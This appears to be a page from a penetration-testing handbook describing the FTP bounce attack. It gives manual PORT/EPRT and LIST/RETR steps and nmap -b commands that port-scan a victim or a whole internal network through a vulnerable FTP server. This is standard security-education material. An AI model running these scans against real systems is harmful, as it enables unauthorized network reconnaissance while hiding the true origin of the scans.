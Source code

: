# FTP Bounce attack - Scan

## FTP Bounce - Scanning

### Manual

1. Connect to vulnerable FTP
2. Use **`PORT`**or **`EPRT`**\(but only 1 of them\) to make it establish a connection with the _&lt;IP:Port&gt;_ you want to scan:

   `PORT 172,32,80,80,0,8080`  
   `EPRT |2|172.32.80.80|8080|`

3. Use **`LIST`**\(this will just send to the connected _&lt;IP:Port&gt;_ the list of current files in the FTP folder\) and check for the possible responses: `150 File status okay` \(This means the port is open\) or `425 No connection established` \(This means the port is closed\) 1. Instead of `LIST` you could also use **`RETR /file/in/ftp`** and look for similar `Open/Close` responses.

Example Using **PORT** \(port 8080 of 172.32.80.80 is open and port 7777 is closed\):

![](../../.gitbook/assets/image%20%2885%29.png)

Same example using **`EPRT`**\(authentication omitted in the image\):

![](../../.gitbook/assets/image%20%28199%29.png)

Open port using `EPRT` instead of `LIST` \(different env\)

![](../../.gitbook/assets/image%20%28339%29.png)

### **nmap**

```bash
nmap -b <name>:<pass>@<ftp_server> <victim>
nmap -Pn -v -p 21,80 -b ftp:ftp@10.2.1.5 127.0.0.1 #Scan ports 21,80 of the FTP
nmap -v -p 21,22,445,80,443 -b ftp:ftp@10.2.1.5 192.168.0.1/24 #Scan the internal network (of the FTP) ports 21,22,445,80,443
```

